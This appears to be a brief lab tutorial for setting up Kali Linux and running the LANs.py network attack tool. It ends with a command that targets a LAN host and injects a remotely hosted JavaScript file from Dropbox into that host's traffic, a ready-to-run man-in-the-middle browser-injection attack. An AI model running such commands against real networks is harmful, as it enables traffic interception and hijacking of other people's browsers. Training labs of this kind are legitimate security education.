 Boot / Install Kali

If on virtualbox, you will need a USB wifi stick. Once added, click the usb icon in the bottom right and add the device to your guest OS
![](http://teachthe.net/topclipbox/2016-05-03_22-29-253QLRLY.png)

NOTE - Your network should be in Bridged Adapter mode.

SETUP
```
git clone https://github.com/breakthenet/LANs.py.git
cd LANs.py
apt-get install python-pip
pip install -r requirements.txt
```

Get Interface name
```
airmon-ng
```

Run script
```
python LANs.py -i wlan0
```

OR

```
python LANs.py -u -p -ip 192.168.0.100 -i wlan0 -b https://dl.dropboxusercontent.com/u/4238738/shake.js
```